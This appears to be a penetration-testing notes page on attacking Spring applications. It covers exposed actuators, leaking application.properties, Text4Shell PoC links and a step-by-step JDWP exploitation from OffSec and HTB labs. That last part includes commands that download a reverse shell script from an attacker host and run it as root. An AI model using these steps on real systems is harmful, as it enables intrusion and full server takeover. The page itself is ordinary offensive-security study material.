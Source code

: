 # Spring

## 101

<table><thead><tr><th width="146" align="right">Technology</th><th>Description</th></tr></thead><tbody><tr><td align="right"><a href="https://spring.io/projects/spring-framework">Spring</a></td><td>A framework for building Java applications.</td></tr><tr><td align="right"><a href="https://spring.io/projects/spring-boot">Spring Boot</a></td><td>A Spring extension that simplifies the configuration of Spring apps by providing defaults and conventions to minimize the boilerplate code required.</td></tr></tbody></table>

## Recon

The default error page (`/error`) for Spring applications:

<figure><img src="../../.gitbook/assets/web_framework_spring_whitelabel.png" alt=""><figcaption></figcaption></figure>

## Attacks

### Actuators

Spring Boot's [actuators](https://www.baeldung.com/spring-boot-actuators#understanding-actuator) is a set of built-in monitoring and debugging features and its endpoints should not be public facing. For instance, [`/actuator/sessions`](https://www.baeldung.com/spring-boot-actuators#3-predefined-endpoints) lists active HTTP Spring session&#x73;_._ For an example of leveraging an actuator for **session hijacking** see [Cozyhosting](../../boxes/easy/cozyhosting.md#leveraging-actuator).

### Config Files

[Spring applications](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) will load properties from the [`application.properties`](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) file which is typically under the webroot (`/`) or the `config` subdirectory. This file can contain sensitive information, such as credentials and database information. We can use Burp Intruder to enumerate this file.

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course, more specifically, the Asio lab._

<figure><img src="../../.gitbook/assets/offsec_asio_applicationProperties_1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/offsec_asio_applicationProperties_2.png" alt=""><figcaption></figcaption></figure>

### Apache Commons

**Apache Commons Text** is a part of the larger Apache Commons project, which provides reusable Java components. Specifically, Commons Text offers utility classes for advanced string manipulation. While not part of the Spring Framework itself, it is commonly included in Spring-based applications due to its useful text processing features.

Apache Commons Text from `1.5` up to `1.9` are vulnerable to **Text4Shell** ([CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)). There is a [PoC](https://github.com/chaudharyarjun/text4shell-exploit) available written for `POST` requests and using the `data` parameter. A [modified version of the PoC](https://github.com/CSpanias/text4shell-exploit) is also available allowing for more flexibility.

### JDWP

**Java Debug Wire Protocol (JDWP)** is a protocol used by the Java Platform Debugger Architecture (JPDA) to enable communication between a debugger and a Java application. It is typically used during development to inspect and control Java programs. While JDWP is not specific to Spring, it can be exposed in Spring-based applications—especially in misconfigured environments or containerized deployments. If left open in production (commonly on port `5005`), JDWP can be exploited by attackers to execute arbitrary code, inspect memory, or gain full control over the JVM.

The identification process of a JDWP process goes like this:

1. We’re in a **Java web app**:

```bash
# TCP port scan reveals the use of the Spring framework
8080/tcp open  http    Apache Tomcat (language: en)
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Spring Java Framework
```

2. We find a **local open port** with no response from manual probbing:

```bash
# Unknown local port
$ netstat -aln
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
```

3. There’s a **Java process running** as `root`:

```bash
$ lsof -i :8000
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
java      851 root   15u  IPv4 151467      0t0  TCP localhost:8000 (LISTEN)
```

4. We suspect this might be **debug-related**:

{% code overflow="wrap" %}
```bash
$ ps aux | grep 8000
root         851  0.0  3.9 2537196 79896 ?       Ssl  06:06   0:06 java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y /opt/stats/App.java
```
{% endcode %}

The above pattern should trigger the “_Maybe it’s JDWP_” instinct.&#x20;

There is a [PoC](https://github.com/IOActive/jdwp-shellifier) available but we might have to dig a bit more in order to successfully use it. This PoC waits for an event to be triggered in order to achieve RCE; we will have to enumerate the port from which we can do that.

```bash
$ ss -tunlp

Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
...
# This is our port forward
tcp   LISTEN 0      1  127.0.0.1:8000      0.0.0.0:*    users:(("java",pid=851,fd=15))
# This is unknown, thus, potentially the JDWP port!
tcp   LISTEN 0      50         *:5000            *:*    users:(("java",pid=851,fd=10))
# This is the web application
tcp   LISTEN 0      100        *:8080            *:*    users:(("java",pid=834,fd=11))
```

We can then check what the Java process is doing:

{% code overflow="wrap" %}
```bash
$ ps aux | grep java
dev          834  0.7 27.4 2613260 555380 ?      Ssl  06:06   3:53 java -jar /opt/dev/api.jar
root         851  0.0  3.8 2537196 77344 ?       Ssl  06:06   0:07 java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y /opt/stats/App.java
```
{% endcode %}

Enumerating the outputted paths confirms that the port `5000` is what we are searching for:

```bash
$ ls -la /opt/dev
...
-rw-r--r-- 1 root root 17383754 Nov  7  2022 api.jar

$ cat App.java | grep 5000
            ServerSocket echod = new ServerSocket(5000);
```

Now we can use the PoC and gain a `root` shell on the target:

{% code overflow="wrap" %}
```bash
# Upload a reverse shell script via the JDWP vulnerability
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'wget 192.168.45.154:8888/revshell.sh -O /tmp/revshell.sh'
...
[+] Waiting for an event on 'java.net.ServerSocket.accept'
```
{% endcode %}

```bash
$ curl http://berlin:5000
curl: (1) Received HTTP/0.9 when not allowed
```

{% code overflow="wrap" %}
```bash
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'wget 192.168.45.154:8888/revshell.sh -O /tmp/revshell.sh'
...
[!] Command successfully executed
```
{% endcode %}

Repeat the same process for assigning the right permissions to the file and then execute it:

```bash
# Assign executable permissions to the uploaded file
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'chmod 700 /tmp/revshell.sh'
# Execute the file
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'bash /tmp/revshell.sh'
```
